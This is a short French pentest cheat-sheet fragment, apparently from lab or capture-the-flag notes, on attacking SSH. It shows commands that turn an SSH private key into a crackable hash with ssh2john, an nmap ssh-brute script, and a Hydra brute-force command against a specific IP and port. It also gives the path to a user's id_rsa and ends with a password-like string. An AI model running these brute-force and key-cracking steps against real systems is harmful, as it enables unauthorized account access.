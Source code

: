 Réduire le nombre de requêtes concurrents. SSH n'accepte pas plusieurs connexions.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#Changer permissions
chmode 600 id_rsa
#transformer en hash (aussi supprimer le nom du fichier au début)
ssh2john id_rsa > hashfile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
sudo nmap --script ssh-brute --script-args users 192.168.203.122
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/home/[user]/.ssh/id_rsa

## Hydra
```shell-session
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

4dn1l3M!$